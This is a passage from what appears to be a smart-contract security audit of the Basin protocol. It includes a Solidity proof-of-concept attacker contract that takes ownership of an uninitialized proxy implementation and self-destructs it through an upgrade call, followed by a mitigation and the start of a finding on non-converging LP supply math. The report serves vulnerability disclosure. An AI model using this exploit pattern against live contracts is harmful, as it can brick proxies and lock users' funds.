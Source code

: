 ### Proof of Concept
Example attacker contract exploiting `MiminalProxy#init` availability and trying to selfdestruct the `minimalproxy implementation`:
```
contract AttackerManager {

  constructor() {}
  function initiateAttack(address aquifer, address oldMinimalProxyImpl, IERC20[] memory tokens, address wellFunctionAddress) public {
    WellUpgradeable(oldMinimalProxyImpl).init("Test", "Test"); // We are now owners of the current minimal proxy implementation
    SelfDestructingImplementation newImpl = new SelfDestructingImplementation(); // Encode params do deploy the new contract 
    Call memory wellFunction = Call(wellFunctionAddress, abi.encode("2"));
    Call[] memory pumps = new Call[](1); (bytes memory immutableData, bytes memory initData) = LibWellUpgradeableConstructor.encodeWellDeploymentData(aquifer, tokens, wellFunction, pumps);
    // Bore the malicious contract in the Aquifier address newMinimalProxy = Aquifer(aquifer).boreWell(address(newImpl), immutableData, initData, bytes32(0)); 
    bytes memory encodedCalldata = abi.encodeWithSelector(SelfDestructingImplementation.selfDest.selector);
    WellUpgradeable(oldMinimalProxyImpl).upgradeToAndCall(newMinimalProxy, encodedCalldata);
  }
  // 1. Call `victim MinimalProxy.init, so we are the owners of it` 
  // 2. Deploy malicious implementation, which contains a selfdestructing function inside 
  // 3. Bore the malicious implementation inside `aquifier` 
  // 4. Call `victim MinimalProxy.upgradeToAndCall` with the minimalProxy, cloned from the malicious implementation and selfdestructing function 
}
contract SelfDestructingImplementation is WellUpgradeable {
  function selfDest() public {
    selfdestruct(payable(address(0)));
  }
}
```

### Recommended Mitigation Steps
Modify `_authorizeUpgrade` to always revert if `_getImplementation() == address(0)`

## [QA-03] `calcLpTokenSupply` can't converge for large reserve ratios, or very small reserves
 
 ### Impact
 
[calcLpTokenSupply](https://github.com/code-423n4/2024-08-basin/blob/7e08ff591df0a2ade7d5618113dda2621cd899bc/src/functions/Stable2.sol#L75-L76) is used to calculate the `lpTokenSupply` for given reserves. We found some values for reserves (with large ratio difference), or very small reserves, which result in impossibility to converge an repeatedly calculating same `lpTokenSupply`. 

- **Issue 1**  For large ratio reserves
One such `reserves` are:
```
Reserves 0 = 99999999000000000001246507 
Reserves 1 = 1000000000000000000
```
